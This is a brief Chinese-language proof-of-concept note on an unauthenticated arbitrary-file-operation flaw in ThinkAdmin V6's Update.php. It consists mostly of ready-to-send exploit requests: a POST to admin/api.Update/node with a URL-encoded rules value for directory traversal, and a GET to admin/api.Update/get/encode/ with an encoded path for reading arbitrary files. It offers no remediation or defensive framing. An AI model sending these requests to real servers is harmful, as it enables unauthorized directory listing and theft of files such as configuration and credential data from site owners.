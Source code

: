 ThinkAdminV6 任意文件操作
Update.php 三个函数未校验访问权限
目录遍历注意POST数据包rules参数值需要URL编码
POST /admin.html?s=admin/api.Update/node
rules=%5B%22.%2F%22%5D

文件读取
后面那一串是UTF8字符串加密后的结果。计算方式在Update.php中的加密函数。
/admin.html?s=admin/api.Update/get/encode/
34392q302x2r1b37382p382x2r1b1a1a1b1a1a1b2r33322u2x2v1b2s2p382p2q2p372t0y342w34
